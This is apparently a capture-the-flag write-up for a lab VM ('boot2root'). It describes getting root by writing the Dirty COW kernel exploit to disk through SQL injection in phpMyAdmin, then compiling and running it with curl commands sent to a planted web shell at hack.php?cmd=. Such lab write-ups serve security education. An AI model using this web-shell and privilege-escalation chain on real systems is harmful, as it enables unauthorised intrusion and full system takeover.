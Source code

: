 # Dirty COW through SQL Injection

## Intro

Following these instructions will get you the Holy Grail (the root, you know) using a very beautiful and very messy way:

![Bonus way #3](https://drive.google.com/uc?export=view&id=1KalcsuE9IKLSI64LeqLpWD9eoW4cftpo)

## How to start?

Need to do steps from [Main way #1](https://github.com/MrOnimus/42_boot2root/blob/master/writeup1.md) to start after access to cmd throgh get request.

## Generating an SQL query

After this we need to run SQL [script](https://github.com/MrOnimus/42_boot2root/blob/master/scripts/dirty_cow_sql_injection.sql) in phpMyAdmin.

Given script is a Dirty COW [epxloit](https://www.exploit-db.com/exploits/40839) in form of the SQL injection script.
To comply with SQL formatting standards we've changed some symbols using this online [utility](http://www.unit-conversion.info/texttools/replace-text/). To be clear, we have made the following changes: " -> \\", ' -> \\', and \n -> \\\n .

As the lines ended with '\\' symbol and escaped symboles conflicted with each other, we couldn't compile file. 
We've worked this problem out with help of this [source](https://stackoverflow.com/questions/5268088/extra-backslash-when-select-into-outfile-in-mysql):

	LINES TERMINATED BY '\r\n'
	ESCAPED BY ''

## SQL injection execution

After that - compile and run exploit with:

	curl --insecure "https://192.168.56.102/forum/templates_c/hack.php?cmd=gcc%20-pthread%20exploit.c%20-o%20exploit%20-lcrypt"
	curl --insecure "https://192.168.56.102/forum/templates_c/hack.php?cmd=ls" //check if it correct compile
	curl --insecure "https://192.168.56.102/forum/templates_c/hack.php?cmd=./exploit%20123"

And we have firefart user with password 123 which is root. But I don't now how log in because su or su -c can't get passwd as argument.
